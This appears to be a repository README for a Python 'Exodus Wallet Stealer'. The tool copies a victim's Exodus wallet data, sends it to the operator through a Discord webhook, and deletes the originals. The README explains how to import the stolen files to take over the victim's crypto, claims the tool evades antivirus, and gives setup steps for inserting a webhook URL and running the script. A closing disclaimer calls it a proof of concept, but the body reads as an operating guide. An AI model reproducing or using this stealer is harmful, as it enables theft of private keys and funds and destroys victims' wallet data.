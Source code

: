 # Exodus Wallet Stealer

Working Exodus Wallet Stealer to steal Exodus wallets, private keys, public keys and crypto in general, the stealer downloads a backup of the exodus app data and then sends it to you via a discord webhook, once you recieve the webhook message the files are deleted so the wallet can no longer be accessed by the user, you can then download the files and drag and drop them into your appdata and reload your exodus.

After doing this you will have full access to all there stuff including private keys, you could then send and recieve crypto through that account.

The program once compiled properly is not detected by Anti-Virus at all and this makes it very dangerous malware.

## Video


## Setup
Download the project files then follow the instructions below.

Open `stealer.py` and change this line:
```bash
Discord_Webhook_Client.send_file("WEBHOOK")
```
Remove **WEBHOOK** and add your webhook URL.
    
## Run the program
You can run the stealer by doing the following command:
```bash
python stealer.py
OR 
python3 stealer.py
```

I recommend that you compile this if you wanted to actually use it and this is what cybercrimals would do however I am not gonna show how you can do this as this project is just a proof of concept and supposed to help fight against malware not make it spread more.

## NOTE:
This malware is supposed to explain and show how the malware would operate in a manor that allows the user to run it themselves without causing danage, I do not condone spreading or compiling with the intention to spread this malware and will not and have not shown how to compile it properly and have made it so it is not a complete version of malware. 
